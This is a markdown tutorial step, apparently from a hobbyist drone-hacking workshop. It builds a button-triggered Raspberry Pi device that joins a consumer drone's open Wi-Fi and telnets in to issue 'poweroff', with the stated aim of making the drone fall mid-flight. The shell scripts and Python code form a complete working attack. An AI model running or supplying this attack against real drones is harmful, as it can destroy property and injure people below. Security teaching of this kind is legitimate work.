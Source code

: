 # Returning to the Pi

Now that we know how to exploit the vulnerabilities of the drone, lets see if we can make it all happen with the push of two buttons.

## Automating the attack

As we've seen from our previous experiment we can use telnet to access and shutdown the drone.
Since we're using a headless Pi (no monitor/keyboard/mouse), we should try to automate both connecting to the drone and issuing a telnet/kill command.

### Connecting to the drone

On the Pi navigate to the drone-hack folder and create a file called `join_ network.sh`.

``` Bash

pi@raspberrypi:~/drone-hack $ nano join_network.sh

```

Paste the following code into the file, but make sure you replace <DRONE_SSID> with the SSID you found in the previous step.

```Bash

#!/bin/bash
service network-manager stop
service networking stop
killall wpa_supplicant
killall dhclient
ifconfig wlan0 down
iwconfig wlan0 essid <DRONE_SSID>
ifconfig wlan0 up

```

Save the file and make sure it's executable by running `chmod`.

```Bash

pi@raspberrypi:~/drone-hack $ chmod 755 join_network.sh

```

### Powering off

Create a new file called `power_off.sh`, we'll use this script to telnet into the drone and to issue a `poweroff` command.

```Bash

#!/bin/bash
telnet 192.168.1.1 <<EOF
poweroff
EOF

```

Save it and make sure it's executable by running `chmod`.

```Bash

pi@raspberrypi:~/drone-hack $ chmod 755 power_off.sh

```

## Tying it all together

We'll now use the two buttons to trigger the `join_network.sh` and `power_off.sh` scripts - together with the `os`-package in Python.
This module provides a portable way of using operating system dependent functionality.

Create a new file and paste the update [code](#drone-hack-v01) into it.

```Bash

pi@raspberrypi:~/drone-hack $ nano step4.py

```

Save and run the program! We'll now turn the drone on again and try to issue the automated attack.
Hopefully we've done everything right, and will make the drone fall to the ground. 

(ツ)

```Bash

pi@raspberrypi:~/drone-hack $ python3 step4.py

```


#### drone-hack v0.1

```Python 
import RPi.GPIO as GPIO
import time
import os

GPIO.setmode(GPIO.BCM)
GPIO.setup(23, GPIO.IN, pull_up_down=GPIO.PUD_UP) #Button to GPIO23
GPIO.setup(24, GPIO.OUT)  #LED to GPIO24

GPIO.setup(25, GPIO.OUT)  #LED to GPIO25
GPIO.setup(26, GPIO.IN, pull_up_down=GPIO.PUD_UP) #Button to GPIO26


def Connect():
    try:
        while True:
             button1 = GPIO.input(23)
             button2 = GPIO.input(26)
             if button1 == False:
                 # We need root privileges to kill of some of the processes.
                 os.system('sudo sh /home/pi/drone-hack/join_network.sh')
                 # Wait for a connection before powering off..  
                 CheckConnection()
             elif button2 == False:
                 GPIO.output(25, True)
                 print('Powering off...')
                 os.system('sh /home/pi/drone-hack/power_off.sh')
             else:
                 GPIO.output(24, False)
                 GPIO.output(25, False)
    except:
        print('Error')
        GPIO.cleanup()

# crude way of checking that a connection has been established 
def CheckConnection():
     print('Checking connection...')
     while True:
        GPIO.output(24, True)
        ssid = os.popen("iwconfig wlan0 \
                | grep 'ESSID' \
                | awk '{print $4}' \
                | awk -F\\\" '{print $2}'").read()
        if ssid.startswith('ardrone') == True:
             time.sleep(3.0)
             GPIO.output(24, True)
             break
        else:
             GPIO.output(24, False)
             time.sleep(1.0)

     print("ssid: " + ssid)    
        
Connect()


```